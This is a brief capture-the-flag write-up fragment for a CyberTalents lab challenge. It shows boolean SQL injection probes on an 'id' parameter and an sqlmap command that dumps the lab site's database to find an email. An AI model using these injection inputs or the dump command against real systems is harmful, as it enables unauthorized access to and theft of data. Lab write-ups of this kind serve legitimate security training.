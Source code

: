 - sql injection in id parameter

  ```
  ?id=1 AND 4896=4896
  ?id=1 AND 4896=489
  ```
  ```
  sqlmap -u wcamxwl32pue3e6mk873oykcwzy01y3eq9ypfx3m-web.cybertalentslabs.com/shownews.php?id=1 -dump
  ```
- then submit the email
